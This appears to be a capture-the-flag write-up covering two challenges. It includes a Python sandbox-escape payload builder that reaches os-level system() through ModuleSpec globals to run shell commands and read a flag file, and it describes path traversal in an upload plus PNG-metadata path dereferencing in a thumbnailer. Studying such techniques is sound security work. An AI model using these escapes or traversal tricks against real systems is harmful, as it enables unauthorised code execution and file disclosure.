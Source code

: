 We remembered about the dockerfile, built the image and tested the `probe` on that container, where we could see the stderr logs. The logic was that the image was the same so the index of `ModuleSpec` would not change.

We probed the indices between `0` and `200` and found `ModuleSpec` around index `100`.

#### RCE

Now that we have access to `ModuleSpec` we can access the `__globals__` and `sys` and execute arbitrary shell commands:
```python
def exec_payload(idx: int, cmd: str) -> str:
    """
    Execute via: ModuleSpec.__init__.__globals__['sys'].modules['posix'].system(cmd)
    """
    subs = subclasses_list_expr()
    INIT = str_expr("__init__")
    GLOB = str_expr("__globals__")
    SYS  = str_expr("sys")
    MODS = str_expr("modules")
    POSX = str_expr("posix")
    SYSF = str_expr("system")
    CMD  = str_expr(cmd)
    IDX  = n_expr(idx)

    sys = f"(c(c({subs}[{IDX}],{INIT}),{GLOB})[{SYS}])"
    posix = f"(c({sys},{MODS})[{POSX}])"
    return (
        f"({define_zero()},c({posix},{SYSF})({CMD}))"
    )
```

After some exploring with `ls` we found a file called `flag.txt` and we leaked it using a simple `cat`.


## Wizard Gallery 🌐

When we launch the service we notice an image upload that trusts the **client-supplied filename** and a separate route that serves a **small "logo" thumbnail**. That’s enough of a foothold to try two classic tricks: path traversal on the upload, and metadata shenanigans on the thumbnailer.

### Exploit path

So, in order to explain the exploit we need to analyze the source code, there we found a few things that have been useful while pwning the service.

* The uploader accepts arbitrary filenames; `../logo.png` lands **outside** the intended folder, letting us overwrite the site’s main `logo.png`.
* The thumbnailer that serves `logo-sm.png` **reads PNG metadata** (a `tEXt` key named `profile`) and appears to **dereference it as a local path** while generating the small logo.

```python
@app.route('/uploads/<filename>')
def uploaded_file(filename):
   # Make sure to handle the case where the file is logo-sm.png (not part of the vault)
   if filename == 'logo-sm.png':
      return "File not found", 404
   return send_from_directory(app.config['UPLOAD_FOLDER'], filename)

# Serve all files from public to /
@app.route('/<path:filename>')
def serve_files(filename):
   try:
      return send_from_directory(PUBLIC_DIR, filename)
   except:
      return "File not found", 404
```